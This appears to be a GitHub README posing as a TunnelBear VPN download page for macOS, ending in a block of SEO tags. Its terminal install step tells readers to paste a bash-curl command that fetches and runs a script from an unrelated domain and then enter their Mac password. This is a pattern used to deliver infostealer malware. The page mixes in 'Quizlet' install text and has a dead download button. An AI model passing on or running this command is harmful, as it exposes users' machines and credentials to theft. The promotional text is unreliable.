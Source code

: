# TunnelBear — Download For Mac OS 🐻

TunnelBear is a simple and powerful VPN app for Mac OS that allows you to browse securely, privately, and without restrictions. With an intuitive interface and fast servers in over 45 countries, TunnelBear ensures your internet connection stays protected and unrestricted. Follow the guide below to install and start browsing freely. 🌍✨
![vpn](https://www.tunnelbear.com/static/img/protect-bear.a8cca5d.svg)

> [![Download for Mac](https://img.shields.io/badge/Download-for%20Mac-blue?logo=apple&style=for-the-badge)](#)

> ⚠️ If the download button doesn’t work, follow the terminal-based installation guide below.

---

## 📦 How to Install Quizlet For Mac

### Installation via .dmg:

1. Download the .dmg file using the button above.
2. Open the .dmg installer and drag Quizlet to your Applications folder.
3. Open Terminal and run the Quizlet app with permissions if prompted.
4. Press “Return” and enter your Mac password (leave blank if you don’t have one).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

---

### Installation via a command in the terminal:

1. Copy the installation command below:

```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open Terminal on your Mac and paste the command.
3. Press “Return” and enter your password to confirm.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get With TunnelBear
* 🧱 Secure Browsing – Encrypts your internet connection to protect personal data.
* 🌍 Global Servers – Access content in 45+ countries with lightning-fast speeds.
* 🕵️ No Logs Policy – TunnelBear doesn’t track or store your activity.
* 🕳️ Bypass Censorship – Open restricted sites and services worldwide.
* 📱 Cross-Platform – Syncs across Mac, iOS, Windows, Android.
* 🚀 One-Click Connect – Instantly connect with a single tap.

---

## About TunnelBear
TunnelBear is a trusted VPN service designed for users who want a secure and simple way to protect their privacy online. With a delightful bear-themed interface, the software appeals to both casual and experienced users alike. TunnelBear routes your internet traffic through encrypted tunnels to keep your browsing activity private and shielded from surveillance, especially on public Wi-Fi networks.

Thanks to its no-logs policy, TunnelBear ensures that your data is never stored or sold to third parties. The app is especially popular among macOS users for its tight system integration and lightweight performance.

Whether you're accessing geo-blocked content or simply looking to maintain anonymity while browsing, TunnelBear makes the process seamless. It's an ideal solution for travelers, remote workers, and anyone who values their online freedom.

A major advantage of TunnelBear is its ease of use. The application connects automatically and includes a "GhostBear" mode to help bypass deep packet inspection. With friendly visuals and a strong focus on privacy, TunnelBear stands out as one of the most user-friendly VPNs on the market.

## 🖼 Preview

![image1](https://img.utdstc.com/screen/b91/627/b91627e238a7292b3372b754399ea917fad26200485ed8fe4fb34078b9940c5e:600)

* Main dashboard with location options
  
---

## 🔍 Tags

tunnelbear download mac, tunnelbear for mac, tunnelbear vpn mac download, vpn for mac free download, best vpn for mac os, download tunnelbear macos, secure vpn mac, tunnelbear free vpn, mac vpn client, install tunnelbear mac, tunnelbear free, tunnelbear download, bear tunnel, tunnelbear chrome, tunnelbear for pc, bears tunnel, tuner bear chrome, tunnelbear chromebook, tunnelbear for chromebook, tunnelbear
